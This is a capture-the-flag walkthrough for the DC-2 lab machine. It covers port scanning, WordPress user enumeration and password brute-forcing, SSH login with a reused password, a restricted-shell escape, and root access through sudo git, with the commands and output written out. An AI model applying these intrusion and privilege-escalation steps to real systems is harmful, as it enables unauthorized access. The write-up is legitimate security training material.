






# PG Play - DC-2

#### Ip: 192.168.244.194
#### Name: DC-2
#### Difficulty: Easy
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

Lets begin this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/PG/DC-2]
└─$ sudo nmap -p-  --min-rate 10000 192.168.244.194
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-29 10:33 CDT
Nmap scan report for 192.168.244.194
Host is up (0.068s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
7744/tcp open  raqmon-pdu

Nmap done: 1 IP address (1 host up) scanned in 8.60 seconds
```

We can scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/PG/DC-2]
└─$ sudo nmap -sC -sV 192.168.244.194 -p 80,7744   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-29 10:34 CDT
Nmap scan report for 192.168.244.194
Host is up (0.065s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52517b6e70a4337ad24be10b5a0f9ed7 (DSA)
|   2048 5911d8af38518f41a744b32803809942 (RSA)
|   256 df181d7426cec14f6f2fc12654315191 (ECDSA)
|_  256 d9385f997c0d647e1d46f6e97cc63717 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.42 seconds
```

Ok, looks like just HTTP and SSH (running on an uncommon port) are open. Also, we can tell from Nmap that the Ip is redirecting to http://dc-2/, so lets add that to the `/etc/hosts` file.

Looking at the site we see its running WordPress:


Lets use WPScan to see what else we can find:

```text
┌──(ryan㉿kali)-[~/PG/DC-2]
└─$ wpscan --url dc-2 --enumerate vp,u,vt,tt

_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
```

Cool, WPScan found three usernames:



Lets add them to a list called users.txt

```text
┌──(ryan㉿kali)-[~/PG/DC-2]
└─$ cat >> users.txt                 
admin
tom
jerry
```

Based on a hint on the webpage, I'll use cewl to generate a custom wordlist:

### Exploitation

We can do that by running:



Now that we have a potential password list we can try to bruteforce the WordPress site using wpscan:



Nice, we've got a couple credentials. Before logging into the WP site, lets see if these passswords are being reused for SSH too.

```text
┌──(ryan㉿kali)-[~/PG/DC-2]
└─$ ssh tom@dc-2 -p 7744
The authenticity of host '[dc-2]:7744 ([192.168.244.194]:7744)' can't be established.
ED25519 key fingerprint is SHA256:JEugxeXYqsY0dfaV/hdSQN31Pp0vLi5iGFvQb8cB1YA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[dc-2]:7744' (ED25519) to the list of known hosts.
tom@dc-2's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
tom@DC-2:~$ whoami
-rbash: whoami: command not found
tom@DC-2:~$ id
-rbash: id: command not found
```

Cool, the credentials worked, but it looks like we're in a restricted shell. We can bypass this by fixing the path:

```text
tom@DC-2:~$ id
-rbash: id: command not found
tom@DC-2:~$ BASH_CMDS[a]=/bin/sh;a
$ export PATH=/bin:/sbin:/usr/bin:$PATH
$ whoami
tom
$ id
uid=1001(tom) gid=1001(tom) groups=1001(tom)
```

We can now grab the local.txt:



### Privilege Escalation

Taking a look at the flag3.txt file we find another hint:

```text
$ cat flag3.txt
Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
```

Lets su over to user jerry and see what they can run:

```text
$ su jerry
Password: 
jerry@DC-2:/home/tom$ whoami
jerry
jerry@DC-2:/home/tom$ sudo -l
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git
```

Interesting, looks like jerry can run git as root.

We can head over to https://gtfobins.github.io/gtfobins/git/ and find the commands we need:



Nice, that worked:

```text
jerry@DC-2:/home/tom$ sudo git -p help config
GIT-CONFIG(1)                                           Git Manual                                          GIT-CONFIG(1)


NAME
       git-config - Get and set repository or global options

SYNOPSIS
       git config [<file-option>] [type] [-z|--null] name [value [value_regex]]
       git config [<file-option>] [type] --add name value
       git config [<file-option>] [type] --replace-all name value [value_regex]
       git config [<file-option>] [type] [-z|--null] --get name [value_regex]
       git config [<file-option>] [type] [-z|--null] --get-all name [value_regex]
       git config [<file-option>] [type] [-z|--null] --get-regexp name_regex [value_regex]
       git config [<file-option>] [type] [-z|--null] --get-urlmatch name URL
       git config [<file-option>] --unset name [value_regex]
       git config [<file-option>] --unset-all name [value_regex]
       git config [<file-option>] --rename-section old_name new_name
       git config [<file-option>] --remove-section name
       git config [<file-option>] [-z|--null] -l | --list
       git config [<file-option>] --get-color name [default]
       git config [<file-option>] --get-colorbool name [stdout-is-tty]
       git config [<file-option>] -e | --edit


DESCRIPTION
       You can query/set/replace/unset options with this command. The name is actually the section and the key separated
       by a dot, and the value will be escaped.

       Multiple lines can be added to an option by using the --add option. If you want to update or unset an option which
!/bin/sh
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```

We can now grab the proof.txt flag:



Thanks for following along!

-Ryan

-----------------------------------
